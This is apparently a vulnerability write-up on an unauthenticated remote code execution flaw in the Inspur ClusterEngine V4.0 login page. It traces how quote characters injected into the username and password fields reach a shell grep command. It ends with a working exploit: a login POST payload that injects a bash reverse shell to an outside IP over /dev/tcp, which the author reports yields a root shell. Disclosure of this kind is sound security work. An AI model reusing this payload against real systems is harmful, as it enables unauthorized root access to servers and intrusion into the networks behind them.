# Inspur ClusterEngineV4.0 Remote Code Execute

# 0x01 Description

Today, i found a`Inspur Server Cluster Management System` in our intranet, which login page looks like that.



It doesn't have verification code, so i decide to crack a login account.




when burpsuite crack down, i noticed if post data has `;'`, the response packet is abnormal.



At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.




When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.



So I decided to try send `' '`  to see the response packet.



I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.





Try to read `/etc/passwd`



Try to list the directories




# 0x02 Pwned

Now, I confirmed there is a remote code execution that a found, after fuzz, I got the following payload

`whoami`



`uname`



`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` in my `kali linux`server


